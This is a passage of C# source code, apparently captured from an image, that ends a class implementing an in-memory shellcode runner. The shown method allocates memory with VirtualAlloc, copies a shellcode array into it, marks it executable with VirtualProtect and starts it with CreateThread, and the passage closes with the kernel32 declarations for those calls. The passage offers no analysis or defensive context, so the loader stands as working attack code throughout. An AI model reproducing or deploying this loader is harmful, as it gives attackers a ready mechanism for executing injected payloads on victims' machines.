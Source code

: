 ```

        var hMemory = VirtualAlloc(
            IntPtr.Zero,
            (uint)shellcode.Length,
            0x00001000 | 0x00002000,
            0x04);

        Marshal.Copy(
            shellcode,
            0,
            hMemory,
            shellcode.Length);

        VirtualProtect(
            hMemory,
            (uint)shellcode.Length,
            0x20,
            out _);

        CreateThread(
            IntPtr.Zero,
            0,
            hMemory,
            IntPtr.Zero,
            0,
            IntPtr.Zero);
    }

    [DllImport("kernel32.dll")]
    private static extern IntPtr VirtualAlloc(
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect);

    [DllImport("kernel32.dll")]
    private static extern bool VirtualProtect(
        IntPtr lpAddress,
        uint dwSize,
        uint  flNewProtect,
        out uint lpflOldProtect);

    [DllImport("kernel32.dll")]
    private static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        IntPtr lpThreadId);
}
```
